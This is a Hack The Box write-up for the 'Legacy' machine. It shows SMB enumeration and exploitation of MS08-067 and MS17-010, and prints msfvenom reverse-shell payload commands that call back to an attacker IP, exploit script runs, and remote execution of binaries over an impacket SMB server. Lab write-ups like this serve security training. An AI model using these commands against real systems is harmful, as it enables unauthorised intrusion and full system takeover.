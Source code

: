 ```yaml
---
title: Legacy [HTB] 
date: 2020-10-27 18:08:00 +/- 0000
categories: [Writeup, Hack_The_Box]
tags: [Walkthrough, HTB, ms17-010, ms08-067, SMB, Metasploit]
headline: HTB Legacy machine Metasploit and manual (script) exploitation.
image: /assets/img/leg/leg1.png
---
```


Exploiting the SMB service on a Windows machine to achieve a system shell.

## Enumeration

```shell
nmap $ip
```

![pic](/assets/img/leg/leg2.png)

```shell
nmap --script smb-vuln* -p 139,445 $ip
```

![pic](/assets/img/leg/leg3.png)

The SMB service appears vulnerable to 2 well know exploits, MS08-067 and MS17-010 (Eternal Blue)

## MS08-067 Metasploit

```shell
search ms08-067
```

![pic](/assets/img/leg/leg4.png)

## MS17-010 Metasploit

![pic](/assets/img/leg/leg5.png)

```shell
search MS17-010
```

![pic](/assets/img/leg/leg6.png)

## MS08-067 Python Script

There are a fair few scripts for this vuln, but this one is pretty solid: <https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py>.

Create the payload.
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.63 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

Start a NetCat listener on port 443 and execute the script as per the exploit instructions.
```shell
python ms08-067.py $ip 6 445
```

![pic](/assets/img/leg/leg7.png)

I get my shell.

![pic](/assets/img/leg/leg8.png)

I know that I'm NT AUTHORITY\SYSTEM, but how to prove it without Curl or Certutil? I have just exploited SMB, so that's the answer. I had transferred files with Samba before, but this was the first time I had executed code remotely/locally with SMB. Start the Samba server in the ***/usr/share/windows-resources/binaries*** directory and you can use SMB to run the binary on the target computer.

Attacking machine:

```shell
python3 /usr/share/doc/python3-impacket/examples/smbserver.py Samba . -smb2support
```

Target machine:

```shell
\\10.10.14.63\Samba\whoami.exe
```

## MS17-010 Python Script

Of the many scripts for the Eternal Blue exploit, this one has treated me the best: <https://github.com/helviojunior/MS17-010>. This script will retrieve a file from your machine and execute it, so a file with a payload needs to be created.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.63 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o blue.exe
```

Run the send_and_execute script.

```shell
python send_and_execute.py 10.129.28.7 blue.exe
```

![pic](/assets/img/leg/leg9.png)

System shell.

![pic](/assets/img/leg/leg10.png)

Link to the video:

M0nkey out.
